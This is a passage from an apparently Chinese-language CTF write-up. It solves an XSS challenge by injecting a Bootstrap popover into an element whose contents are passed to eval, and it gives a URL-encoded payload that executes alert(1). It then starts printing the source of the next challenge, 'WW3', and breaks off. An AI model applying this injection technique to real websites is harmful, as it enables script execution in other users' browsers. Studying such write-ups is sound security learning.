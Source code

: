 我们可以从文档知道，我们可以通过data-container来控制 popover 的位置，data-content来控制内容，于是我们是不是可以有一个想法把这个 popover 弄到 number 标签当中呢？于是我们可以尝试构造如下 payload ：

```
&lt;button id="keanu" data-toggle="popover" data-container="#number" data-content="hello"&gt;
```

利用题目中原有的$(“#keanu”).popover(“show”);来触发我们的 popover ，我们暂且先注释掉题目当中的延迟关闭的功能以便于我们观察。

[![](https://p4.ssl.qhimg.com/dm/1024_486_/t01b914cd5fd8e30ad6.png)](https://p4.ssl.qhimg.com/dm/1024_486_/t01b914cd5fd8e30ad6.png)

尽管 eval 执行出错，但是我们可以发现 number 标签当中确实被我们注入了一些其他的内容

```
7&lt;div class="popover fade bs-popover-right show" role="tooltip" id="popover238474" x-placement="right" style="position: absolute;"&gt;&lt;div class="arrow"&gt;&lt;/div&gt;&lt;h3 class="popover-header"&gt;&lt;/h3&gt;&lt;div class="popover-body"&gt;hello&lt;/div&gt;&lt;/div&gt;
```

我们这样我们简化一下这个内容:7&lt;template&gt;hello&lt;/template&gt;，我们可控的地方就是 7 与 hello ，&lt;template&gt;就是 popper.js 实现的 popover 功能的代码，这个我们不需要关注，所以这样问题就变成了如何在$str=”$1&lt;template&gt;$any&lt;/template&gt;”;eval($str);当中执行代码的问题了。

到这里其实答案已经呼之欲出了，既然是在eval当中，我们可以利用第一位为单引号，由于中间$any我们任意可控，后面再用一个单引号将&lt;template&gt;变成字符串，//注释掉后面的&lt;/template&gt;即可，整个 payload 即是'&lt;tamplate&gt;’;alert();//&lt;/tamplate&gt;。

所以我们需要这么构造一个元素：

```
&lt;button id="keanu" data-toggle="popover" data-container="#number" data-content="';alert(1);//"&gt;
```

即可实现 XSS，所以 payload:

```
number='&amp;name=&lt;button id%3D"keanu" data-toggle%3D"popover" data-container%3D"%23number" data-content%3D"'%3Balert(1)%3B%2F%2F"&gt;
```

[![](https://p0.ssl.qhimg.com/dm/1024_264_/t01e7ecc75a07c62a2d.png)](https://p0.ssl.qhimg.com/dm/1024_264_/t01e7ecc75a07c62a2d.png)



## WW3

```
&lt;!-- Challenge --&gt;
&lt;div&gt;
    &lt;h4&gt;Meme Code&lt;/h4&gt;
    &lt;textarea class="form-control" id="meme-code" rows="4"&gt;&lt;/textarea&gt;
    &lt;div id="notify"&gt;&lt;/div&gt;
&lt;/div&gt;

&lt;script&gt;
    /* Utils */
    const escape = (dirty) =&gt; unescape(dirty).replace(/[&lt;&gt;'"=]/g, '');
    const memeTemplate = (img, text) =&gt; `{`
        return (`&lt;style&gt;@import url('https://fonts.googleapis.com/css?family=Oswald:700&amp;display=swap');`+
            `.meme-card`{`margin:0 auto;width:300px`}`.meme-card&gt;img`{`width:300px`}``+
            `.meme-card&gt;h1`{`text-align:center;color:#fff;background:black;margin-top:-5px;`+
            `position:relative;font-family:Oswald,sans-serif;font-weight:700`}`&lt;/style&gt;`+
            `&lt;div class="meme-card"&gt;&lt;img src="$`{`img`}`"&gt;&lt;h1&gt;$`{`text`}`&lt;/h1&gt;&lt;/div&gt;`)
    `}`
    const memeGen = (that, notify) =&gt; `{`
        if (text &amp;&amp; img) `{`
            template = memeTemplate(img, text)
```